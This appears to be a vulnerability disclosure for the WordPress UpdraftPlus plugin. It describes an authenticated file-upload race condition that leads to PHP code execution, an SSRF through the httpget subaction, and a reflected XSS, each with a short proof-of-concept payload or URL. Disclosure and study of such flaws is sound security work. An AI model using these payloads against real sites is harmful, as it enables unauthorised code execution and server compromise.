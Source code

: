 # wordpress plugin updraftplus vulnerablity

标签（空格分隔）： 未分类

---

# authenticated  upload file and php code execution #

file `/wp-content/plugins/updraftplus/admin.php` line 1843 function `plupload_action`

via the name parameter to set filename, and move file content into this file.

![image.png-72.3kB][1]

after the 39 lines, this file be delete
![image.png-296.3kB][2]

there are Race condition, when we view this pages before delete after write in. we can make php code execution.


## PoC ##

file content:
```
<?php
$f = fopen('../a.php','wb');
fwrite($f, '<?php phpinfo();?>');
fclose($f);
```

via upload this file, and view this pages before delete, we can write a a.php into `/wp-content/a.php`

![image.png-105.2kB][3]

![image.png-89.2kB][4]

![image.png-172.5kB][5]

# authenticated ssrf #

file `/wp-content/plugins/updraftplus/admin.php` line 1233 function updraft_ajax_handler 

when `subaction='httpget'`the curl parameter follow into function http_get,

![image.png-26.1kB][6]

![image.png-163.4kB][7]

they will use curl to request url, it can be exploited to conduct server-side request forgery (SSRF) attacks.



## PoC ##

login and view website
```
http://127.0.0.1/wordpress4.8/wp-admin/options-general.php?page=updraftplus&tab=expert
```

![image.png-8.9kB][8]

use fetch(curl)

![image.png-20.9kB][9]


## authenticated reflected xss ##

管理员权限
```
http://127.0.0.1/wordpress4.8/wp-admin/admin-ajax.php?action=updraft_ajax&subaction=httpget&nonce=69b5fc40ca&uri=http%3A%2F%2F0%2F<img src=233 onerror=alert(1)>&curl=1
```


  [1]: http://static.zybuluo.com/LoRexxar/ypg8xnr3sond8644y8swl8jc/image.png
  [2]: http://static.zybuluo.com/LoRexxar/68a8puqj0k96ifgmryzi2ogw/image.png
  [3]: http://static.zybuluo.com/LoRexxar/u7y5hg3m1y2nj2c8kxbbhuk6/image.png
  [4]: http://static.zybuluo.com/LoRexxar/8o61e5tla9dglj0m5g2z7349/image.png
  [5]: http://static.zybuluo.com/LoRexxar/r1pfhrohhin6kj295zoqckjh/image.png
  [6]: http://static.zybuluo.com/LoRexxar/nvvhoe3gxmepnug6yf6aaojr/image.png
  [7]: http://static.zybuluo.com/LoRexxar/pksfa3e4gtjg6ztgnuubedkb/image.png
  [8]: http://static.zybuluo.com/LoRexxar/smc72erghubs8a1xvtzo5sjp/image.png
  [9]: http://static.zybuluo.com/LoRexxar/qa12ejx4ad0pf4c245fe3nqg/image.png